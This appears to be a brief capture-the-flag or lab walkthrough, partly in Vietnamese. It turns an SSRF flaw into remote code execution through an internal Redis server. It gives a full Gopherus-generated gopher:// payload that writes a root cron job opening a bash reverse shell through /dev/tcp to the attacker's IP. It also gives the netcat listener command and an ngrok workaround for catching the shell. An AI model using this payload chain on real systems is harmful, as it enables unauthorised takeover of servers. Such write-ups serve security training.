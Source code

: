 ## Step 1: file:///etc/passwd
=> SSRF
## Step 2: Scan port by Intruder of burp suite
url = localhost:$port$
vì nhiều server nó chỉ mở port cho các máy cục bộ kết nối nên scan từ ngoài nhiều khi ko đc (lỗi ở đây là mình lợi dụng localhost)
=> port 6379 (redis)
## Step 3: Gopherus
> gopherus --exploit redis
> reverseshell
==> payload (via Cron)
--==[[ Example ]]==--

	gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/myIP/myPort 0>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a

## Step 4: 
On my PC: 
> nc -lvnp 1234

up payload to SSRF box.

==> done

# Note: 
if !vps: ==> can use ngrok để có thể nc được ra ngoài LAN
> ngrok tcp 1234
*sửa payload thành IP(hoặc url) và port của ngrok*
máy mình vẫn nc như trên bình thường.